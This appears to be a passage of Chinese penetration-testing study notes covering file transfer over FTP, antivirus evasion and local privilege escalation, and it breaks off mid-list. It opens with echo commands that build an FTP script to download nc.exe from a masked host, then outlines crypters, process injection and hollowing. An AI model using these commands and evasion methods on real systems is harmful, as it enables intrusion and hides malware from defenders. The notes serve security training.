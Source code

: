 echo open XXX.XXX.XXX.XXX 21 > ftp.txt
echo USER username >> ftp.txt
echo password >> ftp.txt
echo bin >> ftp.txt
echo get nc.exe >> ftp.txt
echo bye >> ftp.txt
```

``` ftp -v -n -s:ftp.txt```

# 规避防病毒软件
AV躲避技术分为两个大类:
  磁盘中(修改存储在硬盘当中的文件)
  内存中(现代恶意软件主要使用方法)

## 磁盘中的躲避技术(修改/混淆磁盘中的文件)
  打包: 打包后的文件体积更小/特征码不同/单一使用此方法并不足以规避目前主流AV软件的查杀
  混淆: 最初用于开发者保护自己的知识产权. 花指令 重组 变异代码 语义等价替代 分隔和重排序函数, 增加逆向分析的难度, 对基于特征码的检测方法比较有效
  加密Crypters: 加密软件, 增加解密存根, 执行时在内存中解密执行代码, 磁盘当中只有加密的文件. 更改了可执行代码, 作为最有效的反病毒规避技术之一, 加密已经成为了现代恶意软件的基础.
  软件保护: 结合以上方法, 同时增加反逆向/反调试/虚拟机检测等技术. 即用于软件保护, 也可以用于AV规避, 用于相关技术太复杂, 目前并没有开源的AV规避产品, 商业工具: The Enigma Protector
## 内存中躲避技术
  内存中注入也在PE Injection, 是目前主流的AV躲避技术
  有点是不向硬盘当中写文件(AV软件重点关注)
  需要独立编写代码实现内存注入
  远程进程内存注入技术
    利用Windows API, 向正常PE进程注入攻击代码
    首先通过OpenProcess函数获得可用的目标进程HANDLE(有权访问的)

  反射DLL注入技术
  进程挖空技术(Process Hollowing)
  内连挂载技术(Inline Hooking)

# 本地提权
突破边界后通常获得低权限账号, 为获得目标系统全面控制能力需要进行提权
## 常见提权思路
1. 服务配置错误
2. 文件或者服务权限漏洞
3. 内核漏洞
4. 高权限运行的服务漏洞
5. 敏感信息漏洞
6. 总是在执行二进制文件之前提升特权的系统设置
7. 脚本中包含硬编码的凭证, 以及许多其他内容

## 信息收集
发现提权的可能途径, 包括手动以及自动信息收集的枚举技术
Windows:
> https://fuzzysecurity.com/tutorials/16.html

Linux:
> https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation

---
### 手动枚举
- 耗时但是能发现更多的提权途径
- 不同版本的系统及系统环境, 信息收集的方法有所不同, 并非每种提权方法都适用于所有系统
- 枚举用户账号(适用于Windows/Linux)
    - whoami
- Linux系统
    - id
    - w
    - whoami
- 查看Linux系统所有账号
```